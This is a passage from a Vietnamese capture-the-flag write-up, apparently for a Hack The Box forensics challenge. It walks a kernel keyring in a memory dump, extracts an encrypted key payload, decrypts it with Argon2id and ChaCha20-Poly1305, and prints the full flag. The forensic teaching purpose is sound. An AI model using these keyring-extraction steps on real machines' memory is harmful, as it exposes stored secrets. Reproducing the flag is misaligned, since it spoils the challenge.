        print(f"[+] description       : {desc!r}")
        print(f"[+] state             : {state}")
        print(f"[+] key.datalen       : {datalen}")

        try:
            payload_ptr = qword(key_used + payload_off)
            print(f"[+] payload pointer   : 0x{payload_ptr:x}")
            print(f"[+] payload norm      : 0x{norm(payload_ptr):x}")

            if typ == "user" and payload_ptr and 0 < datalen < 4096:
                payload = read_mem(norm(payload_ptr) + payload_data_off, datalen)
                print(f"[+] payload length    : {len(payload)}")
                print(f"[+] stored payload    : {payload!r}")

                try:
                    decoded = base64.b64decode(payload.strip(), validate=True)
                    print(f"[+] base64 decoded len: {len(decoded)}")
                except Exception:
                    pass
        except Exception as e:
            print(f"[-] payload read error: {e}")

        if "serpent" in desc.lower() or "part_2" in desc.lower():
            matches += 1

    walk_rb(right)

walk_rb(root_node)

print()
print(f"[+] visited keys: {total}")
print(f"[+] serpent/part matches: {matches}")
```
ta tìm được kết quả sau khi dump hết ra với keyring và có part 2 của serpent đúng với cái ta thấy trong main.rs
```
[+] key address       : 0x8a728542f200
[+] serial            : 284078346
[+] type              : 'user'
[+] description       : 'keyring:part_2@serpent'
[+] state             : 1
[+] key.datalen       : 72
[+] payload pointer   : 0xffff8a7281d6d5a0
[+] payload norm      : 0x8a7281d6d5a0
[+] payload length    : 72
[+] stored payload    : b'vFq7uwx/2Zet+LsG3dpjbe1cJdfbykcWbitZs22pUysEUQREdJTNkc6jDDnYOHEHhSDFQw=='
[+] base64 decoded len: 52
```
thấy được payload rồi giờ ta decrypt theo những gì vừa kết luận được từ main.rs là xong
script mình dùng
```
import base64
from argon2.low_level import hash_secret_raw, Type
from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305

BOOT_ID = "710d1eb0-9a77-4c9c-a148-a8dd002d8755"
SALT = b"serpent_secure_salt_2026"

payload_b64 = b"vFq7uwx/2Zet+LsG3dpjbe1cJdfbykcWbitZs22pUysEUQREdJTNkc6jDDnYOHEHhSDFQw=="

key = hash_secret_raw(
    secret=BOOT_ID.encode(),
    salt=SALT,
    time_cost=4,
    memory_cost=262144,
    parallelism=4,
    hash_len=32,
    type=Type.ID,
    version=19,
)

combined = base64.b64decode(payload_b64)

nonce = combined[:12]
ciphertext_and_tag = combined[12:]

plaintext = ChaCha20Poly1305(key).decrypt(nonce, ciphertext_and_tag, None)

print("[+] decoded len:", len(combined))
print("[+] nonce:", nonce.hex())
print("[+] plaintext:", plaintext.decode())
```
kết quả part 2 là:w1th_k3rn3l_k3yr1ng_4nd_
-> ta có tổng 3 phần flag là: HTB{v0l4t1l3_1uk52_d3crypt10n_w1th_k3rn3l_k3yr1ng_4nd_w1r3gu4rd_3xf1l_brrr_brrr_brrr!!}
note: challenge rất hay đồng thời cx khó vi ci eo